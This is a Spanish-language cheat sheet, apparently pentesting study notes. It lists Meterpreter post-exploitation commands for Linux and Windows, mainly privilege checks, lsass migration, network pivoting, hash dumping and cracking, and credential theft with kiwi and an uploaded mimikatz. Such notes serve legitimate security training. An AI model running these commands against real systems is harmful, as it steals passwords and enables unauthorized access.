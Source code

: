 # Meterpreter

Propietario: Adrian Gisbert Cabello

- Comandos para usar en metasploit una vez ubtenida una sesión meterpreter LINUX:
    - Para ver una ayuda de los comandos disponibles (esto cambiará si es una máquina windows o linux): `help`
    - Para ver información del sistema: `sysinfo`
    - Para subir un archivo: `upload archivo.txt`
    - Para el tratamiento de la TTY: `shell` → `/bin/bash -i`
    - Para guardar una sesión en background: `background`
    - Para saber los privilegios que tengo en una máquina: `getuid`
    - Buscar un proceso: `pgrep <nombre del proceso>` → `pgrep lsass`
    - Migrar un proceso: `migrate <número del proceso al que queremos migrar>` → `migrate 464`
    - Obtener el hash de las contraseñas de cada usuario: `hashdump`
    - Para crackear el hash lo guardamos en un archivo ***hash.txt*** (por ejemplo), y mediante la herramienta ***john*** ponemos el siguiente comando: `john --format=NT hash.txt wordlist=/usr/share/wordlists/rockyou.txt`	(el formato, hay que poner el que tenga el hash)
    - Para listar usuarios: `net users`
    - Para buscar un archivo: `search -f archivo.doc` (sustituimos archivo.doc por el nombre que necesitemos encontrar)
    - Para añadir una ip a la tabla de rutas de nuestra máquina atacante y poder ver otros equipos en esas subredes: `run autoroute -s 192.168.X.0/24` (aquí pondremos la nueva ip encontrada y su máscara de red, en este caso es /24 porque era 255.255.255.0
- En windows:
    - Para saber los privilegios que tengo en una máquina: `getuid`
    - Para listar usuarios: `net users` (este comando en una máquina windows funcionará si previamente hemos puesto el comando `shell`)
    - Podemos usar para ver los privilegios que tenemos: `getprivs`
    - Para ver los privilegios del usuario que tenemos: `shell` → `whoami /priv`
    - Ver los usuarios logeados: `query user`
    - Ver más información a cerca de un usuario: `net user <usuario>` → `net user administrator`
    - Ver más información de los grupos: `net localgroup` o `net localgroup <usuario>` → `net localgroup administrator`
    - Información del sistema: `systeminfo`
    - Para levear una sesión a meterpreter tenemos dos opciones:
        
        1. `sessions -u 1` (tenemos que cambiar el 1 por el número de la sesión que queramnos levear)
        
        2. `use shell_to_meterpreter`, ponemos el LHOST, LPORT y la SESSION. (una vez rellenados los datos le damos a `run` y se nos creará una nueva sesión meterpreter)
        
    - Para dumpear hashes de contraseñas podemos usar `kiwi`, en una sesión de meterpreter (antes tenemos que migrar el proceso lsass) escribimos: `load kiwi`:
    - El menú de ayuda: `?`
    - Para ver todas las credenciales: `creds_all`
    - Para ver todos los hashes de passwords: `lsa_dump_sam`
    - En algunos casos podemos ver los passwords en texto plano: `lsa_dump_secrets`
        
        También podemos usar `Mimikatz` por si son hashes difíciles:
        
        Hacemos un upload del archivo mimikatz.exe de nuestra máquina linux al equipo víctima (en este caso Win x64):
        
        `cd C:\\` (Nos vamos al directorio raíz)
        
        `mkdir Temp` (Creamos una carpeta temporal para poder trabajar)
        
        `cd Temp`
        
        `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` (Directorio donde se encuentra el archivo en nuestra máquina Kali)
        
        `shell` (Abrimos una consola de comandos)
        
        `.\mimikatz.exe`
        
        Una vez estamos dentro de Mimikatz:
        
        `lsadump::sam` (Nos da más información que `Kiwi`)
        
        `lsadump::secrets`
        
        `sekurlsa::logonpasswords` (Ver contraseñas en texto plano, si procede)